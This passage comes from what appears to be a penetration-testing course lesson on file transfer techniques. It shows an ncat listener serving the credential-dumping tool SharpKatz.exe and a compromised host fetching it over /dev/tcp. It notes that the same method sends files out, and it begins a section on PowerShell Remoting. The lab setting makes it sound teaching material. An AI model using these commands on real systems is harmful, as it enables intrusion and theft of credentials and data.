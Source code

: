 #### Ncat - Sending File as Input to Ncat

Miscellaneous File Transfer Methods

```shell-session
shakir0x00@htb[/htb]$ # Example using Ncat
shakir0x00@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

Miscellaneous File Transfer Methods

```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

**Note:** The same operation can be used to transfer files from the compromised host to our Pwnbox.

---

# PowerShell Session File Transfer

We already talked about doing file transfers with PowerShell, but there may be scenarios where HTTP, HTTPS, or SMB are unavailable. If that's the case, we can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations.

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to execute scripts or commands on a remote computer using PowerShell sessions. Administrators commonly use PowerShell Remoting to manage remote computers in a network, and we can also use it for file transfer operations. By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration. Let's create an example and transfer a file from `DC01` to `DATABASE01` and vice versa.

We have a session as `Administrator` in `DC01`, the user has administrative rights on `DATABASE01`, and PowerShell Remoting is enabled. Let's use Test-NetConnection to confirm we can connect to WinRM.

#### From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.

Miscellaneous File Transfer Methods

```powershell-session
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```
